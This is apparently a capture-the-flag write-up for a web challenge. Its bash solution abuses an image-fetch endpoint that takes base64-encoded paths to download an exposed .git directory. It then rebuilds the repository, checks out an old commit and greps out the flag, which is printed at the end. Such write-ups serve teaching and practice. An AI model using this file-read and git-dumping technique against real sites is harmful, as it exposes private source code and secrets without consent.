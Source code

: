 #### Challenge:

Shrek seems to be pretty angry about something, so he deleted some important information off his site. He murmured something about Donkey being too _committed_ to infiltrate his swamp. Can you _checkout_ the site and see what the _status_ is? [link](http://3.91.17.218/)

---

#### Solution:

```bash
function download() {
    mkdir -p ${1%/*}
    curl http://3.91.17.218/getimg.php?img=$(echo -n "$1" | base64) 2>/dev/null > $1
}

download .git/HEAD
download .git/refs/heads/master
download .git/logs/HEAD

for h in `cat .git/logs/HEAD | awk '{print substr($2,0,2) "/" substr($2,3,length($2))}'`; do
    download .git/objects/$h
done

while ! git fsck --full 1>2 2>/dev/null ; do
    for h in `git fsck --full | grep missing | awk '{print substr($3,0,2) "/" substr($3,3,length($3))}'`; do
        download .git/objects/$h
    done
done

git log
git checkout 759be945739b04b63a09e7c02d51567501ead033
cat ./index.php | grep utflag
```

---

<details><summary>FLAG:</summary>

```
utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}
```

</details>
<br/>
